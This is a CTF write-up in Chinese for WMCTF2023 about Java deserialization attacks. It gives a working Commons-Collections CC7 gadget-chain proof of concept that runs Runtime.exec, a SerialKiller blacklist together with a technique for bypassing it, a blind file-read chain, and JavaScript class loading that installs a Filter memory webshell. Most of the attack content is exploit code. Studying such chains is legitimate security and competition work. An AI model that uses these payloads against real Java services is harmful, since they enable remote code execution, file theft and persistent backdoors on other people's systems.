








file协议任意读文件，但下载下面的class文件无法反编译

# Decompile problem

全部取反，开头改成CAFEBABE

```python
def invert_file_bits(input_file, output_file):
    with open(input_file, 'rb') as f_in:
        with open(output_file, 'wb') as f_out:
            byte = f_in.read(1)
            while byte:
                inverted_byte = bytes([~byte[0] & 0xFF])
                f_out.write(inverted_byte)
                byte = f_in.read(1)


input_file_path = "CmdServlet.class"
output_file_path = "CmdServlet2.class"
invert_file_bits(input_file_path, output_file_path)
```



反编译后修改的源码也放在仓库了👉[Click Me](../Code/WMCTF2023)

# CC7 recap

后半段和CC6一样，都是调用 `LazyMap#get -> Transformer#transform`，不过source变了。

`HashMap`的父类为`AbstractMap`，当比较两个`HashMap`时调用的是父类`AbstractMap`的`equals`

`java.util.AbstractMap#equals`

```java
public boolean equals(Object o) {
    if (o == this)
        return true;

    if (!(o instanceof Map))
        return false;
    Map<?,?> m = (Map<?,?>) o;
    if (m.size() != size())
        return false;

    try {
        Iterator<Entry<K,V>> i = entrySet().iterator();
        while (i.hasNext()) {
            Entry<K,V> e = i.next();
            K key = e.getKey();
            V value = e.getValue();
            if (value == null) {
                if (!(m.get(key)==null && m.containsKey(key)))
                    return false;
            } else {
                if (!value.equals(m.get(key))) 👈Look Me👋
                    return false;
            }
        }
    } // ...error catch
    return true;
}
```

比较对象需要满足如下条件才和原Map相等：

* `Map`类的实例（`o instanceof Map`）
* 大小和原Map相同（`m.size() == size()`）
* 遍历原Map的每个键值对Entry和比较对象一致

其中第三点会获取比较对象中`key`对应的`value`（`m.get(key)`），让比较对象m为`LazyMap`即可触发后半段链子。

`LazyMap`的`equals`也是调用的父类(`AbstractMapDecorator`)的`equals`

```java
// AbstractMapDecorator#equals
public boolean equals(Object object) {
    if (object == this) {
        return true;
    }
    return map.equals(object); 👈Look Me👋
}
```

这里的map就是`LazyMap.decorate`传进来的map

因此我们构造两个LazyMap，一个用于触发`HashMap#equals`，一个用于触发`Transformer#transform`

```java
Transformer[] transformers = new Transformer[] {
    new ConstantTransformer((Runtime.class)),
    new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
    new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
};
Transformer chain = new ChainedTransformer(transformers);
Map map1 = new HashMap();
Map map2 = new HashMap();
Map lazyMap1 = LazyMap.decorate(map1, chain);
Map lazyMap2 = LazyMap.decorate(map2, chain);
lazyMap1.put("1", "2");
lazyMap2.put("3", "4");
lazyMap1.equals(lazyMap2);
// LazyMap#equals -> AbstractMapDecorator#equals -> HashMap#equals -> AbstractMap#equals -> LazyMap#get
```

接着哪个类的`readObject`能调到`equals`

```java
// The put method used by readObject
private void reconstitutionPut(Entry<?,?>[] tab, K key, V value)
    throws StreamCorruptedException
{
    // Makes sure the key is not already in the hashtable.
    int hash = key.hashCode();
    int index = (hash & 0x7FFFFFFF) % tab.length;  💭 最初put时tab.length=0, 即index=0
    for (Entry<?,?> e = tab[index] ; e != null ; e = e.next) {
        if ((e.hash == hash) && e.key.equals(key)) {  👈Look Me👋
            throw new java.io.StreamCorruptedException();
        }
    }
    // Creates the new entry.
    @SuppressWarnings("unchecked")
    Entry<K,V> e = (Entry<K,V>)tab[index];
    tab[index] = new Entry<>(hash, key, value, e);  💭 Entry的hash即为key的hash
    count++;
}
```

先对传入的key进行哈希，根据哈希值获取索引

接着获取table对应索引的键值对Entry，若Entry的哈希和当前key的哈希相同，才能走到`e.key.equals(key)`

`Hashtable#reconstitutionPut`由该类的`readObject`调用



先将键值对进行反序列化，再传入`reconstitutionPut`

即我们放入Hashtable的两个LazyMap的哈希值需要相同

`LazyMap`的`hashCode`方法也是来自父类，返回`this.map.hashCode()`

而我们传入的`LazyMap`的map为`HashMap`，`HashMap`的`hashCode`也来自父类

```java
// AbstractMapDecorator#hashCode
public int hashCode() {
    return map.hashCode();
}

// AbstractMap#hashCode
public int hashCode() {
    int h = 0;
    Iterator<Entry<K,V>> i = entrySet().iterator();
    while (i.hasNext())
        h += i.next().hashCode();
    return h;
}
```

`HashMap#entrySet`获取到的`Entry`为`HashMap`定义的内部类`Node`(其实现了`Map.Entry<K,V>`)

```java
// HashMap$Node#hashCode
public final int hashCode() {
    return Objects.hashCode(key) ^ Objects.hashCode(value);
}
```

分别对key和value进行哈希后异或，value设置相同即可，比如都为1

问题是key不同(因为后面`LazyMap.get(key)`需要本身的map不含这个key)，但需要其哈希相同，String的哈希可以进行碰撞

```java
// String
public int hashCode() {
    int h = hash;
    if (h == 0 && value.length > 0) {
        char val[] = value;

        for (int i = 0; i < value.length; i++) {
            h = 31 * h + val[i];
        }
        hash = h;
    }
    return h;
}
```

即每次的哈希值×31，加上字符的ASCII

我们知道大小写字母的ASCII差32，刚好比31多1

因此可以取两个相邻的小写字母，比如`o`和`p`，第二轮计算时差了31，再取`o`和`P`，大小写错位刚好补上31

`"oo".hashCode() == "pP".hashCode()`

到此链子就打通了。

看到这或许你我都很疑惑，为什么还要绕一圈通过`AbstractMapDecorator#equals`去调用`AbstractMap#equals`呢

完全没有必要再多构造一个`LazyMap`(`ysoserial`中也是构造了两个LazyMap，可能是为了对称美?)

下面给出稍微简洁一点的POC

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

public class CC7 {
    public static void main(String[] args) throws Exception {
        Transformer[] fake = new Transformer[]{new ConstantTransformer(2)};
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer((Runtime.class)),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        Transformer chain = new ChainedTransformer(fake);
        Map map1 = new HashMap();
        Map map2 = new HashMap();
        Map lazyMap2 = LazyMap.decorate(map2, chain);
        map1.put("yy", 1);
        lazyMap2.put("zZ", 1);

        Hashtable hashtable = new Hashtable();
        hashtable.put(map1, 1);
        hashtable.put(lazyMap2, 2);
        lazyMap2.remove("yy");

        //输出两个元素的hash值
        System.out.println("lazyMap1 hashcode:" + map1.hashCode());
        System.out.println("lazyMap2 hashcode:" + lazyMap2.hashCode());

        setValue(chain, "iTransformers", transformers);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(hashtable);
        oos.close();

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        ois.readObject();
    }

    public static void setValue(Object obj, String fieldName, Object newValue) throws Exception {
        Class clazz = obj.getClass();
        Field field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, newValue);
    }
}
```

调用栈：

> java.util.Hashtable.readObject
> java.util.Hashtable.reconstitutionPut
> java.util.AbstractMap.equals
> org.apache.commons.collections.map.LazyMap.get
> org.apache.commons.collections.functors.ChainedTransformer.transform
> org.apache.commons.collections.functors.InvokerTransformer.transform
> java.lang.reflect.Method.invoke
> sun.reflect.DelegatingMethodAccessorImpl.invoke
> sun.reflect.NativeMethodAccessorImpl.invoke
> sun.reflect.NativeMethodAccessorImpl.invoke0
> java.lang.Runtime.exec

> 🎣Hashtable的put问题：
>
> 构造EXP时，往Hashtable put也会触发到`equals`
>
> 
>
> 这里需要执行到`addEntry`才能真正把Map放到`Hashtable`
>
> 所以第二个判断条件`entry.key.equals(key)`需要返回false
>
> 
>
> 即这里`m.get(key)`触发的`transform`的返回值和当前value不同
>
> 因此fake中的`ConstantTransformer`传2

# Bypass SerialKiller

```xml
<blacklist>
    <!-- ysoserial's CommonsCollections1,3,5,6 payload  -->
    <regexp>org\.apache\.commons\.collections\.Transformer$</regexp>
    <regexp>org\.apache\.commons\.collections\.functors\.InstantiateFactory$</regexp>
    <regexp>com\.sun\.org\.apache\.xalan\.internal\.xsltc\.traxTrAXFilter$</regexp>
    <regexp>org\.apache\.commons\.collections\.functorsFactoryTransformer$</regexp>

    <regexp>javax\.management\.BadAttributeValueExpException$</regexp>
    <regexp>org\.apache\.commons\.collections\.keyvalue\.TiedMapEntry$</regexp>
    <regexp>org\.apache\.commons\.collections\.functors\.ChainedTransformer$</regexp>
    <regexp>com\.sun\.org\.apache\.xalan\.internal\.xsltc\.trax\.TemplatesImpl$</regexp>
    <regexp>com\.sun\.org\.apache\.xalan\.internal\.xsltc\.trax\.TrAXFilter$</regexp>
    <regexp>java\.security\.SignedObject$</regexp>

    <regexp>org\.apache\.commons\.collections\.Transformer$</regexp>
    <regexp>org\.apache\.commons\.collections\.functors\.InstantiateFactory$</regexp>
    <regexp>com\.sun\.org\.apache\.xalan\.internal\.xsltc\.traxTrAXFilter$</regexp>
    <regexp>org\.apache\.commons\.collections\.functorsFactoryTransformer$</regexp>
    <!-- ysoserial's CommonsCollections2,4 payload  -->
    <regexp>org\.apache\.commons\.beanutils\.BeanComparator$</regexp>
    <regexp>org\.apache\.commons\.collections\.Transformer$</regexp>
    <regexp>com\.sun\.rowset\.JdbcRowSetImpl$</regexp>
    <regexp>java\.rmi\.registry\.Registry$</regexp>
    <regexp>java\.rmi\.server\.ObjID$</regexp>
    <regexp>java\.rmi\.server\.RemoteObjectInvocationHandler$</regexp>
    <regexp>org\.springframework\.beans\.factory\.ObjectFactory$</regexp>
    <regexp>org\.springframework\.core\.SerializableTypeWrapper\$MethodInvokeTypeProvider$</regexp>
    <regexp>org\.springframework\.aop\.framework\.AdvisedSupport$</regexp>
    <regexp>org\.springframework\.aop\.target\.SingletonTargetSource$</regexp>
    <regexp>org\.springframework\.aop\.framework\.JdkDynamicAopProxy$</regexp>
    <regexp>org\.springframework\.core\.SerializableTypeWrapper\$TypeProvider$</regexp>
    <regexp>org\.springframework\.aop\.framework\.JdkDynamicAopProxy$</regexp>
    <regexp>java\.util\.PriorityQueue$</regexp>
    <regexp>java\.lang\.reflect\.Proxy$</regexp>
    <regexp>javax\.management\.MBeanServerInvocationHandler$</regexp>
    <regexp>javax\.management\.openmbean\.CompositeDataInvocationHandler$</regexp>
    <regexp>java\.beans\.EventHandler$</regexp>
    <regexp>java\.util\.Comparator$</regexp>
    <regexp>org\.reflections\.Reflections$</regexp>
</blacklist>
```

Ban了一堆偏偏`InvokerTransformer`不Ban。。。。😅

Ban了`TiedMapEntry`，只能用CC7的source

Ban了`ChainedTransformer`，如何进行链式调用呢？

回想CC1的两个版本`LazyMap`和`TransformedMap`，其利用的就是对`value`的`get`和`set`操作时会触发`transform`

根据`LazyMap`类的描述，当获取`LazyMap`中`key`对应的值时，若`key`不存在，则通过`factory`将key转化(`transform`)得到对应的value，再放入map中，`LazyMap`之所以`Lazy`就是因为这种延迟的`transform`懒加载，不是`put`的时候就`transform`，而是`get`的时候才`transform`

> When the get(Object) method is called with a key that does not exist in the map, the factory is used to create the object. The created object will be added to the map using the requested key.

反观`TransformedMap`，它就不`Lazy`了，实现了自己的`put`方法，先对`key`和`value`进行`transform`再放入`map`中

```java
public Object put(Object key, Object value) {
    key = transformKey(key);
    value = transformValue(value);
    return getMap().put(key, value);
}

protected Object transformKey(Object object) {
    if (keyTransformer == null) {
        return object;
    }
    return keyTransformer.transform(object);
}

protected Object transformValue(Object object) {
    if (valueTransformer == null) {
        return object;
    }
    return valueTransformer.transform(object);
}
```

注意到`TransformedMap#put`这里就存在递归调用`put`了，让当前的`map`为`TransformedMap`即可

(`TransformedMap`的父类和`LazyMap`一样，也是`AbstractMapDecorator`，刚好可以接上CC7)

`LazyMap#get`这就可以作为递归调用的入口

```java
public Object get(Object key) {
    // create value for key if key is not currently in the map
    if (map.containsKey(key) == false) {
        Object value = factory.transform(key);
        map.put(key, value);   💭 recursive call begin✌️
        return value;
    }
    return map.get(key);
}
```

本题没能回显，也没过滤掉`Runtime`等命令执行类，若能出网直接弹shell，或者curl、wget等外带数据，亦或者打JDNI，但受JDK版本限制

不出网利用只能依靠字节码加载了，但把`TemplatesImpl`给Ban了。

## Exploitation Without Internet Access

### Blind File Read

URL类 + `file`协议读文件

```java
import java.io.InputStream;
import java.net.URL;
import java.net.URLConnection;

public class Test {
    public static void main(String[] args) throws Exception {
        URL url = new URL("file:///E:/flag.txt");
        URLConnection connection = url.openConnection();
        InputStream inputStream = connection.getInputStream();

        byte[] buffer = new byte[1024];
        int bytesRead;
        while ((bytesRead = inputStream.read(buffer)) != -1) {
            String content = new String(buffer, 0, bytesRead);
            System.out.println(content);
        }

        inputStream.close();
    }
}
```

可以通过类似盲注的方法来确定每一个字符

`org.apache.commons.collections.functors.ClosureTransformer`

```java
public Object transform(Object input) {
    iClosure.execute(input);
    return input;
}
```

`Closure`是一个接口，由该接口的描述可知该接口代表了一些基础的代码块（如循环语句、条件语句）

> A Closure represents a block of code which is executed from inside some block, function or iteration. It operates an input object.



从它的实现类中可以找到几个有用的

```java
// TransformerClosure
public void execute(Object input) {
    iTransformer.transform(input);
}
```

```java
// ForClosure
public void execute(Object input) {
    for (int i = 0; i < iCount; i++) {
        iClosure.execute(input);
    }
}
```

```java
// NOPClosure
public void execute(Object input) {
    // do nothing
}
```

```java
// ExceptionClosure
public void execute(Object input) {
    throw new FunctorException("ExceptionClosure invoked");
}
```

```java
// IfClosure
public void execute(Object input) {
    if (iPredicate.evaluate(input) == true) {
        iTrueClosure.execute(input);
    } else {
        iFalseClosure.execute(input);
    }
}
```

`IfClosure`用来条件判断，其中`iPredicate`是`Predicate`接口类，条件谓词



我们需要判断字符是否相等，使用`EqualPredicate`

```java
// EqualPredicate
public boolean evaluate(Object object) {
    return (iValue.equals(object));
}
```

当条件为真时(`iTrueClosure`)调用`NOPClosure`、条件为假时(`iFalseClosure`)调用`ExceptionClosure`

`ForClosure`和`TransformerClosure`配合读取指定位置的字符

完整代码👉[CCRead.java](../Code/WMCTF2023/CCRead.java)



### Js To LoadClass

虽然禁了`TemplatesImpl`，但只要能任意方法调用，就还有很多方法可以加载字节码，这边用JS加载比较方便

具体代码放仓库了👉[Click Me](../Code/WMCTF2023)



`/shell`访问`Filter`内存马
